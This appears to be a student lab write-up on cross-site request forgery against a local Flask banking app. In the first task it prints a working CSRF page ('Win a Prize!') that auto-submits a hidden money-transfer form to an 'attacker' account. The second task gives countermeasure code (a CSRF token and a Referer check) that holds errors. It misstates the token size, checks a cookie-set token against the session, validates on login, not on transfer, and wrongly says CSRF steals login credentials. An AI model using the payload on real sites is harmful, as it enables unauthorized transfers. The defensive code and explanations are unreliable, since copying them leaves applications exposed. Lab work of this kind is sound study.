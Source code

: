# Task 1: normal transaction with CRSF vulnerability

## 1.1: Login, Check balance

We started off by Login into account and checking the balance of the current account.

## 1.2: Doing the transaction

We will have a look at what a normal transaction will do.



This leave us with a big vunerability that if the attacker have the ability to send a fake transaction request to the bank, we will be at risk of being hacked and drain out of money.

## 1.3: Tranfer money illegitimately

Here's what happend if the attacker give us a random link that also steal the login information of the current user and send a fake transaction request to the web server:


Here's what inside the malicious link that the attacker sent:

```

<!DOCTYPE html>
<html>
<body>
<h1>Win a Prize!</h1>
<form id="csrf-form" action="http://localhost:5000/transfer" method="POST" style="display:none;">
    <input type="hidden" name="to" value="attacker">
    <input type="hidden" name="amount" value="50">
</form>

<script>
    window.onload = function() {
        document.getElementById("csrf-form").submit();
    }
</script>
</body>
</html>

```

This will collect the current login value of the victim and sent a POST request to the web-server to fake a transaction to the attacker balance.

There're ways to counter this attack. Here're some of those:

# Task 2: CSRF Countermeasure implementation

## 2.1: Solution 1: Create a CSRF token generator

This is the simplest method to prevent csrf attack. This method include creating a completely random key called csrf token when a user logged in and use the website. After each POST request, the web server will check if the token inclued in the request is the correct one saved in the cookie. This method is useful in preventing basic csrf attack but still vulnerable when the cookie is stolen. Here's how to implement it:

In the python code base, we create a function to generate random token when the user is logged in:

``` 

def generate_csrf_token(): 
        return secrets.token_hex(16)

```

This will randomly create a 8 bytes token that is completely unknow to the attacker. Since all the value generated will be randomized per client session, this make the attack very difficult to do since we create an unknow element to the login function.

And when the login is successful, we also add to the cookie the generated token with the following line in the initial login funtion:
```

 resp.set_cookie('csrf_token', generate_csrf_token()) 

```
This will, after the user logged in, create a random token and save it into the cookie for future use and validation. Since only the user know what is the generated value, attacker simply cannot use normal csrf method on the website except by directly getting the cookie from the client themself.

After that, we also have to make the change to login to include such csrf token invalid detection, using the following:

```

 def login():
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']
        submitted_csrf_token = request.form['csrf_token']
        
        # Verify CSRF token
        if submitted_csrf_token != session.get('csrf_token'):
            return "Invalid CSRF token", 403  # Forbidden

```

The previous code is just the authentication for login with extra code for csrf token validation when the web-server is getting a POST request. This will ensure that the csrf token saved in the cookie is correct.

## 2.2: Solution 2: using the referred header method 

This is also a very simple way to prevent basic csrf attack, this involed using a referred website domain as a POST request location, any different POST request header from malicious attacker website will not be resolved in the web server. This is also not a fool-proof method since the header itself is vunerable to attacker. Here's how to implement it in python:

First, we need to check if the POST request contain the request source folder, any POSt request without it will not the resolved:

```

if 'Referer' not in request.headers:
        return "Invalid request (missing Referer header)", 400

```

This will detect if the request header is hidden from the web-server or the attacker use ways to avoid including the header in the request

Then from the request header, we extract the domain and check if that domain match the referred domain of our web server:

```

 referer_domain = request.headers['Referer'].split('/')[2]

    # Check if the domain matches your expected domain
    if referer_domain != 'mysite.com':
        return "Invalid request (Referer does not match)", 400

```

This will extract and check if the header given is the same as the saved domain. Any normal request from clients will always come from the referred domain, and this will prevent csrf attack from happening because the attacker come from different domain.
